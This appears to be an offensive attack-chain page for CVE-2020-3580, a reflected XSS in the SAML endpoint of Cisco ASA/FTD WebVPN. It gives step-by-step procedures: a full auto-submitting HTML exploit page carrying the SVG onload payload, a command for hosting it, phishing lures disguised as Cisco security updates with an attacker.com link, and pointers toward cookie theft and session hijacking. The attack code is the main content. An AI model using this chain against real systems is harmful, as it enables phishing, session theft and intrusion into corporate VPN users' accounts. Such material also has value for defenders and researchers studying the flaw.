

# Reflected XSS in Cisco ASA SAML Endpoint via CVE-2020-3580

Multi-stage attack chain demonstrating a complete phishing-delivered reflected XSS workflow targeting Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software via CVE-2020-3580.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web server (e.g., Python's SimpleHTTPServer or Apache) to host the HTML page

### Target Environment

- Cisco ASA Software or Cisco Firepower Threat Defense (FTD) Software with AnyConnect or WebVPN enabled
- SAML assertion consumer service endpoint accessible: `/+CSCOE+/saml/sp/acs?tgname=a`
- Vulnerable versions affected by CVE-2020-3580 (pre-patched releases)

### Initial Access Requirements

- No prior credentials needed; unauthenticated remote access
- Victim must be a user of the affected Cisco web interface
- Network access to the target's HTTPS endpoint

## Detailed Attack Procedures

### Step 1: Craft and Host Malicious HTML
procedure: [[procedures/Craft-Malicious-HTML-for-Cisco-XSS-Delivery]]

**Objective**: Create and serve an HTML page that auto-submits a form with a malicious SAMLResponse payload to trigger the reflected XSS.

**Instructions**: Develop an HTML file with embedded JavaScript to push the browser state and submit the payload. Host it on a controllable web server.

Example HTML content:

```html
<!DOCTYPE html>
<html>
<head><title>Cisco Update</title></head>
<body>
<script>
    history.pushState('', '', '/');
    var form = document.createElement('form');
    form.method = 'POST';
    form.action = 'https://[target]/+CSCOE+/saml/sp/acs?tgname=a';
    var input = document.createElement('input');
    input.type = 'hidden';
    input.name = 'SAMLResponse';
    input.value = '"&gt;&lt;svg/onload=alert(document.cookies)&gt;';
    form.appendChild(input);
    document.body.appendChild(form);
    form.submit();
</script>
</body>
</html>
```

Replace `[target]` with the victim's Cisco ASA/FTD hostname or IP. Serve the file using a simple web server, e.g., `python -m http.server 8000` in the directory containing the HTML.

**Expected Output**: The HTML page loads and immediately redirects/submits to the target endpoint.

**Success Indicators**:
- HTML page hosted successfully and accessible via browser
- Form auto-submission triggers without errors on load

### Step 2: Phish Victim to Click Malicious Link
procedure: [[procedures/Phish-Victim-to-Click-Malicious-Link]]

**Objective**: Socially engineer the victim to visit the hosted malicious HTML page, simulating a legitimate Cisco-related link.

**Instructions**: Craft a phishing email or message with a link to the hosted HTML, e.g., disguised as a "Cisco Security Update" or "Login Required". Example link: `http://attacker.com/cisco-update.html` (where attacker.com hosts the HTML).

Send via email, SMS, or other channels targeting users of the Cisco web interface.

**Expected Output**: Victim clicks the link, loading the HTML in their browser.

**Success Indicators**:
- Victim accesses the phishing link (track via server logs if possible)
- Browser navigates to the malicious page

### Step 3: Trigger XSS via Auto-Submitted SAML Form
procedure: [[procedures/Trigger-XSS-via-Auto-Submitted-SAML-Form]]

**Objective**: Upon page load, automatically POST the malicious payload to the SAML endpoint, executing the reflected XSS in the victim's browser context.

**Instructions**: The JavaScript in the HTML handles this automatically: it creates a hidden form with the SAMLResponse payload (`'"&gt;&lt;svg/onload=alert(document.cookies)&gt;'`) and submits it to `https://[target]/+CSCOE+/saml/sp/acs?tgname=a`. No manual intervention needed post-click.

Monitor for the alert popup in the victim's session or exfiltrate data via further payload customization.

**Expected Output**: JavaScript alert displays victim's cookies; potential for further data theft.

**Success Indicators**:
- XSS payload executes (e.g., alert fires)
- Access to sensitive browser data like session cookies

## Attack Chain Summary

### Key Achievements

1. Delivered unauthenticated XSS via phishing without direct endpoint access
2. Exploited SAML parameter reflection to run arbitrary JS in victim context
3. Enabled potential session hijacking or data exfiltration in Cisco WebVPN/AnyConnect environments

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Phishing]] Phishing
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
